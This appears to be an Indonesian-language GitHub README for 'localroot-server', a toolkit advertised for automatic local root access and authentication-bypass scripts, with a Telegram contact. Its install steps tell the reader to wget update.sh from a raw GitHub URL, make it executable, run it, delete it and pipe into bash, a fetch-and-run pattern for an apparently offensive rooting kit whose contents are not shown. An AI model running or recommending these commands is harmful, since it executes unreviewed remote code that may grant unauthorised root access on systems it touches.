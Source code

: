 ![Banner Localroot](root.jpg)
![Banner Localroot](IMG_20250715_145817_209.jpg)

# ⚙️ localroot-server

**localroot-server** adalah kumpulan skrip dan konfigurasi untuk mengelola server lokal dengan akses root. Dirancang untuk keperluan audit keamanan, automatisasi, dan pengujian.

---

## 🔍 Fitur

- 🚀 Akses root lokal otomatis
- 🔐 Penguatan sistem (hardening)
- 🔄 Manajemen user & permission
- 🧪 Skrip bypass otentikasi (testing)
- 📁 Kontrol file & konfigurasi sistem

---

## telegram ☎️ @seotampanidaman

```bash

wget https://raw.githubusercontent.com/mrwawanj/localroot/refs/heads/main/update.sh
```

```bash
chmod +x update.sh && ./update.sh && rm update.sh | bash update.sh
```
